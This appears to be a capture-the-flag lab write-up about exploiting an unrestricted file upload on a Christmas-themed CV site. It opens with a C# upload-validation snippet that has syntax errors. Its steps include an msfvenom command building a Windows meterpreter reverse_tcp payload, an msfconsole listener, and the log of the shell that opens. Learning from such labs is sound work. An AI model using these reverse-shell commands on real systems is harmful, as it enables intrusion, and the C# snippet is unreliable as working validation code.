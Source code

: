    ```C#
            int contentSize = fileUpload.ContentLength;
            //10Mb max file size
            int maxFileSize = 10 * 1024 * 1024
            if (contentSize > maxFileSize)
               {
                  allowed = False;
               }

            //Scan the content for malware
            var clam = new ClamClient(this._configuration["ClamAVServer:URL"],Convert.ToInt32(this._configuration["ClamAVServer:Port"])); 
            var scanResult = await clam.SendAndScanFileAsync(fileBytes);  

            if (scanResult.Result == ClamScanResults.VirusDetected)
               {
                  allowed = False;
               };

            //Only upload if all checks are passed
            if (allowed)
               {
                  using (var stream = System.IO.File.Create(filePath))
                     {
                        formFile.CopyToAsync(stream);
                     }
               }
         }
   ```

8. All of these controls are required for the simple reason that we cannot inherently trust user input.

## STEPS

1. Start machine
2. Navigate to website
3. Upload a test PDF
   1. Create test PDF
   2. Upload
      1. RESULTS: "test.pdf CV file uploaded!! Santa's team will review your CV and get in touch! Since Santa believes in Strong Security, the file has been stored outside the web root. No unethical elves allowed!"
   3. From this upload we can see the message that the uploaded file is not stored in the web root!
4. Upload a NON-PDF file
   1. Create test EXE
   2. Upload
      1. RESULTS: "test.exe CV file uploaded!! Santa's team will review your CV and get in touch! Since Santa believes in Strong Security, the file has been stored outside the web root. No unethical elves allowed!"
   3. From this we can see that the extension did not affect the upload ability
   4. Since we can upload any file lets try and upload something that could execute code
5. MSFVENOM
   1. Lets create a payload that will have a reverse shell
      1. > msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="9999" -f exe -o payload.exe
      2. This will create a reverse_tcp payload listening on port 9999
   2. Lets now create a listener
      1. > sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT '9999'; exploit"
      2. This will execute a listener on the port we specified earlier in our payload (9999)
   3. Upload our payload and our listener should catch it
      1. "Meterpreter session 1 opened (MY_IP:9999 -> 10.10.170.10:49887) at 2022-12-15 10:43:33 -0800"
      2. Success!
6. METERPETER